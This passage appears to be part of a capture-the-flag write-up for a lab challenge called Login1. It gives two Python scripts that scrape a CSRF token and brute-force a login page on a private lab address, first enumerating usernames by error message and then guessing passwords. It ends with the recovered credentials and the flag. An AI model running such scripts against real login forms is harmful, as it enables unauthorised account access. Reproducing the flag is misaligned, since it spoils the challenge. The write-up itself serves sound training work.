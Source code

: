 insert to code before for search username:

```
import requests
from bs4 import BeautifulSoup

url = "http://192.168.70.202:3333/login2.php"
session = requests.Session()

with open("/home/kali/Documents/Login1/user.txt") as file:
    for line in file:
        username = line.strip()
        token = BeautifulSoup(session.get(url).content, 'html.parser').find('input', {'name': 'csrf_token'})['value']
        x = session.post(url, data={"csrf_token": token, "username": username, "password": "12345"})
        if 'Password salah' in x.text:
            print(username)
        else:
            print("salah")

```

using user.txt too for get the password:
```
import requests
from bs4 import BeautifulSoup

url = "http://192.168.70.202:3333/login2.php"
session = requests.Session()

with open("/home/kali/Documents/Login1/user.txt") as file:
    for line in file:
        password = line.strip()
        token = BeautifulSoup(session.get(url).content, 'html.parser').find('input', {'name': 'csrf_token'})['value']
        x = session.post(url, data={"csrf_token": token, "username": "claudetest1", "password": password})
        if 'Password salah' in x.text:
            print("salah")
        else:
            print(password)

```

username: claudetest1 <br>
pass: gracetest1 <br>
flag: CSM{S1mple_Skrep111ng!!__asdasd} <br>

![Screenshot 2025-04-26 012627](https://github.com/user-attachments/assets/20622899-a56b-4079-bb6d-b3362da1a0cf)


### Login3
